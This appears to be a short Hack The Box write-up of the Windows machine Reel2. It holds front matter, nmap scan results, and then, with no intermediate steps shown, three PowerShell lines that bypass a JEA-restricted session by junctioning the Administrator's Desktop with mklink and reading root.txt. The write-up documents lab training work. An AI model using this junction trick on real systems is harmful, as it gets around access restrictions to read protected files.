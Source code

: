```yaml
---
title: (HTB) - Reel2
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-22 11:33:00 +0200
categories: [HackTheBox, Windows]
tags: [Windows,Powershell,OWA,Password Spraying,IIS,Phishing,User Enumeration,JEA Bypass,Social Engineering,Clear Text Credentials,Defense Mechanisms,Hash Capture,Password Cracking,Packet Capture Analysis,Weak Credentials,Memory Dump,Account Misconfiguration]
math: true
mermaid: true
image:
  src: /assets/images/4a58107e5c26c8a34a07b1bd3f029434c474db6089714e95ded821425c7d74a1.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Reel2 is an awesome Windows machine which requires phishing, password spraying, cracking. After having shell access, there is JEA implemented which makes things harder, but it's nice to get introducted to JEA security concept by Microsoft** 

# ENUMERATION
## NMAP
```
Nmap scan report for 10.10.10.210
Host is up (0.044s latency).
Not shown: 991 filtered ports
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: 403 - Forbidden: Access is denied.
443/tcp  open  ssl/https?
| ssl-cert: Subject: commonName=Reel2
| Subject Alternative Name: DNS:Reel2, DNS:Reel2.htb.local
| Issuer: commonName=Reel2
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-07-30T10:12:46
| Not valid after:  2025-07-30T10:12:46
| MD5:   aa49 5cac 7115 c7fe 0628 2a6b 0124 37c4
|_SHA-1: d7ea 2696 a56f 09cb 24ce 557f 830e 86ec 5f63 0f2d
|_ssl-date: 2021-01-28T06:31:11+00:00; 0s from scanner time.
6001/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6002/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6004/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6005/tcp open  msrpc      Microsoft Windows RPC
6006/tcp open  msrpc      Microsoft Windows RPC
6007/tcp open  msrpc      Microsoft Windows RPC
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.32)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
```

[10.10.10.210]: PS>$env:Path
[10.10.10.210]: PS>&{cmd /c mklink /J adm c:\Users\Administrator\Desktop}
[10.10.10.210]: PS>Check-File C:\ProgramData\adm\root.txt